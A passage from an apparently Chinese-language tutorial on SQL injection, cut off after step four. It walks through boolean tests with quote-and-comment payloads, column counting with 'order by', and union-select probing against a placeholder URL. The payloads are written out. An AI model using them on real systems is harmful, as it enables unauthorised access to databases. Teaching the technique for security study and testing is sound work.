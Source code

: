 安全性高的网站通常会过滤特殊标点符号，并且防止出现减法这种正常访问现象。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlmBJ4SqbI4KpUdialKny375h63wxPEw1a4pia969sNhuOYOFFgCdqdUSQ/640?wx_fmt=png)

下面是一个经典的方法：

*   http://xxxxx/show.asp?code=1’ and 1=1 - - (正常显示)  
    对应的 SQL 语句：  
    
    select … from table where code=‘1’ and 1=1 - - and xxxx;
    

单引号 (’) 匹配 code='1，然后 and 连接，1=1 恒成立，注释 (- -) 掉后面语句。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlIdWyMbQ5lNHnQx2P7LlSLTVHow50UtoQIqr4qkrCsibPbse3pPon14Q/640?wx_fmt=png)

*   http://xxxxx/show.php?code=1’ and 1=2 - - (错误显示)  
    对应的 SQL 语句：  
    
    select … from table where code=‘1’ and 1=2 - - and xxxx;
    

单引号 (’) 匹配 code='1，然后 and 连接，1=2 恒错误，注释 (- -) 掉后面语句。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlunSpVQAKnh4EmAiaRB0t8c0b8y6Epwg64NRUp7RW7nr2pWzdmbOshAA/640?wx_fmt=png)

**第二步，判断数据库列数。**  
根据某列数据做排序，四列数据判断。

```
id=1 order by 4--
```

输出结果如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlwyUuEYbDyWqvJNYCkR2f1oEKACYkBvmOia2uCOx3tbqKfS7LhdJancg/640?wx_fmt=png)

如果填写 5 它会报错，从 1 开始遍历能判断该表包括 4 个字段

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlOYuZNetf5eX07RjfAJwO3bd5ZcpCRnq4dyibA5kglDI4u8ykI0ibb24w/640?wx_fmt=png)

**第三步，联合注入。**  
通过 union 将数据在前端显示，这里的数据（null）个数需和前面查询的内容一致（4 个）。SQL 注入中，通常会使用 null 占位。

```
-1 union select null,null,null,null from dual--
```

输出结果如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlutG1RI1YUia1WeTZyz3LPDOoghCVJiawgIibuaWzicCJ9RZthTcbVgLiamA/640?wx_fmt=png)

**第四步，判断每个字段数据类型。**  
这里选择数字 1 和字符 2。

```
-1 union select 1,'2',null,null from dual--
```

输出结果如下图所示：
